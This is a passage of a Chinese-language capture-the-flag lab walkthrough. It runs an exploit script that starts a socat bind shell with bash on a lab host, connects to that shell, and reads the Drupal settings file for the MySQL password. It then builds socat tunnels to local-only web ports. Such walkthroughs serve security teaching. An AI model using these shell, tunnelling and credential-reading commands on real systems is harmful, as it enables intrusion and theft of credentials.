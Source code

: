 ```
[链接](https://blog.stalkr.net/2015/12/from-remote-shell-to-remote-terminal.html)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJPu50IARrvL8sL5qym4kF9O9RdJGv6H71hpdYeXryM3vzCaxcIwwmxA/640?wx_fmt=png)

```
python3 ./dayu.py -t 192.168.182.138 -c "socat TCP-LISTEN:4444,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane" -p 8000
```

生成了一个外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJ4fZ72ZyAQVh5ObyMM4Axca5lZaGsp7lYwAGFxHzNsxCL0h2pwIYIog/640?wx_fmt=png)

```
socat FILE:`tty`,raw,echo=0 TCP:192.168.182.138:4444
```

可以看到利用 socat 工具已经成功转换了特权... 获得了外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJPFD91A7EDrBmxEFGgLtibgTawe1MlTqRV1FuXpXrVPYrIgWauicWziawA/640?wx_fmt=png)

直接查看 sites/default/settings.php 文件，里面含有 mysql 数据库密码...drupink

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJ6dJRUnr3k3lTgyRVXpjwGpsmlXzpXmic4yWegoK9qSezprwEqsFzJ4A/640?wx_fmt=png)

成功登陆...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJ0tSkJcxvSbMPzrh0PofS7QBGCfPZiaYicFxeyOUgLmaF6sr66mMOsGCg/640?wx_fmt=png)这边查看到 pinkadmin 用户，密码哈希值这边没破解成功...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJvxCoBUq37ol4Dmu4t65gSYUue3zzy2jSwZcbYANueMDTLJhTTfZ2Vw/640?wx_fmt=png)

在数据库没发现什么信息了... 哈希值想放着把...（主要我破解不了...）

这边查看运行了那些本地端口，3306 应该是 mysql 的，别的我不太确定， 查看下 apache2 看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJyDpuQjqibDsgiaTGnkuvHriaYtEDD9gkAoHV5ibicpdXW4zjsDibqIVkycZA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJmrVxF3ne1zEEg6AQG8mWQ2oKCPaROmsYfJrVtibj2VsFslrm36HERBA/640?wx_fmt=png)

这里可以看到 80 和 65334 端口运行到 localhost 的 Web 服务器...socat 可以建立隧道.. 打开下 65334 看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJwZM4xH44OTYdmkTrFF971AwjZ4Zobl7ib0uKV9Mia9FHITB7SLBcIG0w/640?wx_fmt=png)

```
socat TCP-LISTEN:8888,fork TCP:127.0.0.1:80 &
socat TCP-LISTEN:9999,fork TCP:127.0.0.1:65334 &
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJqL3LeRmgLlXXW0WW4ic9mj7PDruNhVdR7FzsiaswsibzVKLibUwNJl6kwQ/640?wx_fmt=png)

nmap 扫，可以看到隧道建立成功了.. 好像存在缓冲区溢出？

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJRa6xJe9AG4LlVSM2WAkUib1ATU1XJdhrEeVaCeL4CiawPXStoDM0DwmQ/640?wx_fmt=png)
